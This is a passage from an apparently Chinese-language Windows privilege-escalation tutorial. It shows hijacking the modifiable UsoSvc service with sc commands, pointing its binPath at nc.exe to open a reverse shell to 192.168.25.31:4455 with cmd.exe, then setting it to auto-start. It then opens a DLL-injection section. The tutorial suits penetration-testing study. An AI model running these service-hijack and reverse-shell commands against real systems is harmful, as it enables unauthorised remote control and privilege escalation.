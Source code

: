 发现 USOSVC 可以被修改和重启。

![](https://image.3001.net/images/20210205/1612508843_601ceeabb4e7d6f2c4bdf.jpg!small)

2. 接下来我们上传 nc，此处可以换成 cs 或 msf 生成的任意可执行文件 ，此处有一个小坑，binPath = 和路径中间有一个空格，修改服务启动的可执行程序后，启动服务。

**1**）停止 USOSVC 服务

```
PS C:\Windows\system32> sc stop UsoSvc


```

**2**）将服务执行的 exe 文件修改为 nc，反弹 shell

```
PS C:\Windows\system32> sc config usosvc binPath= "C:\GitStack\gitphp\nc.exe 192.168.25.31 4455 -e cmd.exe"


```

**3**）将服务状态设置为自动启动

```
PS C:\Windows\system32> sc config usosvc start=auto 


```

**4**）启动服务

```
PS C:\Windows\system32> sc start usosvc


```

按部就班的执行

![](https://image.3001.net/images/20210205/1612508857_601ceeb9da7a870c71c53.jpg!small)

执行后，设置并开启服务

![](https://image.3001.net/images/20210205/1612508870_601ceec6e3519ba01d2cb.jpg!small)

![](https://image.3001.net/images/20210205/1612508881_601ceed180be0894b7668.jpg!small)

![](https://image.3001.net/images/20210205/1612508895_601ceedfcf80213de81f3.jpg!small)

DLL 注入提权
--------

### 漏洞介绍

DLL 注入提权是一种利用应用程序错误加载 DLL 的技术。可以使用此技术来实现提权以及持久控制。
